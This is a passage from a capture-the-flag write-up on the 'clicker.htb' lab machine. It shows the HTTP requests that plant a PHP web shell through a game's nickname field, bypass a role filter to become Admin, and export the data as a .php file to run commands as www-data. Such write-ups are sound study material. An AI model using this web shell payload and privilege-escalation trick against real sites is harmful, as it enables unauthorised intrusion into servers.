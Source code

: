 ```
GET /save_game.php?clicks=10000000&level=10000000&nickname=<%3f%3d`$_GET[0]`%3f>&role/**/=Admin
```

Then I can change the extension within the request.

```
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://clicker.htb
DNT: 1
Connection: close
Referer: http://clicker.htb/admin.php
Cookie: PHPSESSID=70kfgrm320tieobkjl4cie41da
Upgrade-Insecure-Requests: 1

threshold=10&extension=php
```

![database export](/img/clicker/clicker_database_export.png)

Now heading to that php file I can pass through the `0` parameter and execute commands as www-data and get a shell.
